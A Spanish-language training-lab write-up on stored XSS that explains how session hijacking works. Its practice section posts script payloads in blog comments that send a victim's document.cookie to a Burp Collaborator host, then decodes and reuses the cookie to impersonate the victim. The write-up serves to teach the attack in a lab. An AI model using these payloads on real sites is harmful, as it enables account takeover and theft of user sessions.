






# 🌐 Robo de cookies mediante XSS

## 📄 Descripción del laboratorio

Este laboratorio contiene una vulnerabilidad de **XSS almacenado** en la funcionalidad de comentarios del blog.

Un usuario víctima simulado visualiza automáticamente todos los comentarios tras publicarse. El objetivo es aprovechar el XSS para robar su cookie de sesión utilizando **Burp Collaborator** como canal fuera de banda y posteriormente reutilizarla para suplantar su identidad.


## 📚 Teoría

### 📌 XSS almacenado y robo de sesión

Este laboratorio ilustra un escenario clásico de explotación de XSS: el **robo de sesión (session hijacking)**.

El flujo vulnerable es el siguiente:

1. La aplicación permite almacenar comentarios sin una sanitización adecuada.
2. El contenido del comentario se renderiza posteriormente en la página.
3. Un usuario víctima visita la página del blog y visualiza los comentarios.
4. El navegador de la víctima ejecuta el JavaScript inyectado.
5. El script roba la cookie de sesión mediante `document.cookie`.
6. El atacante recibe esa información a través de un canal externo.
7. La cookie robada se reutiliza para suplantar la sesión de la víctima.

En este laboratorio se utiliza **Burp Collaborator** como servidor de recepción fuera de banda (Out-of-Band, OOB), que permite capturar peticiones generadas desde el navegador de la víctima.

El impacto depende de que la cookie de sesión no tenga el flag **HttpOnly**, ya que en ese caso JavaScript no podría acceder a `document.cookie`.

Este tipo de vulnerabilidad demuestra que un XSS no es simplemente un problema visual. Permite comprometer cuentas de usuario completas.


## 📝 Práctica

### 1️⃣ Preparar Burp Collaborator

Abrimos **Burp Collaborator** desde Burp Suite y generamos un subdominio único.

Ejemplo:

```
https://k0lat6ee21bqf0drni4omn1jpav1jr7g.oastify.com
```

Este dominio se utilizará para recibir las peticiones generadas desde el navegador de la víctima.


### 2️⃣ Confirmar ejecución de JavaScript

Accedemos a la sección de comentarios del blog y publicamos un comentario con el siguiente payload de prueba:

```hlsl
<script>
fetch("https://k0lat6ee21bqf0drni4omn1jpav1jr7g.oastify.com/test");
</script>
```

<br>

Después de publicar el comentario:

1. Volvemos a **Burp Collaborator**.
2. Pulsamos **Poll now**.

Resultado:

Se recibe una petición HTTP GET al endpoint `/test`.

Esto confirma que el JavaScript se ejecuta en el navegador de la víctima y que el canal OOB funciona correctamente.




### 3️⃣ Exfiltrar la cookie de sesión

Ahora modificamos el payload para enviar la cookie de la víctima.

Utilizamos `document.cookie` y codificamos el valor en Base64 con `btoa()` para evitar problemas con caracteres especiales.

Payload:

```html
<script>
fetch("https://k0lat6ee21bqf0drni4omn1jpav1jr7g.oastify.com/?cookie=" + btoa(document.cookie));
</script>
```

<br>

Publicamos el comentario en el blog.


### 4️⃣ Capturar la cookie en Collaborator

Volvemos a **Burp Collaborator** y pulsamos **Poll now**.

Resultado:

Se recibe una petición HTTP que incluye un parámetro con la cookie codificada.

Ejemplo conceptual:

```
cookie=c2Vzc2lvbj1hYmMxMjM0...
```




### 5️⃣ Decodificar y reutilizar la cookie

Copiamos el valor recibido y lo decodificamos utilizando el **Decoder de Burp Suite**.

Después de decodificar el valor Base64 obtenemos la cookie real de sesión de la víctima.

<br>

Para reutilizarla:

1. Abrimos el navegador o Burp Repeater.
2. Sustituimos nuestra cookie de sesión por la cookie robada.
3. Recargamos la página.

Resultado:

La aplicación nos reconoce como la víctima y accedemos a su sesión.

El laboratorio se marca como completado.


### 6️⃣ Resultado

Mediante el XSS almacenado se ha conseguido:

* Ejecutar JavaScript en el navegador de la víctima.
* Exfiltrar su cookie de sesión mediante Burp Collaborator.
* Reutilizar la cookie para suplantar la sesión.


